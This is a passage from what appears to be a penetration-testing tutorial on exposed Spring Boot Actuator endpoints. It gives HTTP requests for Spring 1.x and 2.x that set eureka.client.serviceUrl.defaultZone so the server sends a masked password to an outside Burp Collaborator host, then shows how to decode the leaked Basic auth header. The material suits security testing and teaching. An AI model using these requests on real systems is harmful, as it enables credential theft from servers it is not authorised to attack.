 3. Set the `eureka.client.serviceUrl.defaultZone` property
   - Replace in the following with the attribute name masked by the corresponding asterisk* you want to get:

**spring 1.x**
```http
POST /env HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://value:${{{ attribute security.user.password }}}@{{ collaborator your.burpcollaborator.net }}
```

**spring 2.x**

```http
POST /actuator/env HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/json

{"value":"http://value:${{{ attribute security.user.password }}}@{{ collaborator your.burpcollaborator.net }}", "name":"eureka.client.serviceUrl.defaultZone"}
```

4. Refresh the configuration:

**spring 1.x**

```http
POST /refresh HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/x-www-form-urlencoded
```

**spring 2.x**

```http
POST /actuator/refresh HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/json
```

5. Decode the attribute value

Normally, the server monitored by nc will receive the request from the target, which contains the following Authorizationheader content:

```http
Authorization: Basic dmFsdWU6MTIzNDU2
```

Decode the `dmFsdWU6MTIzNDU2` part of it using base64 to obtain a similar plaintext value `value:123456`, where `123456` is the plaintext of the attribute value before desensitization of the target asterisk*.

### Password Desensitized by the Asterisk (method 3)

When accessing the `/env` interface, the spring actuator will replace the attribute values ​​corresponding to some attribute names with sensitive keywords (such as password, secret) with * to achieve the effect of desensitization
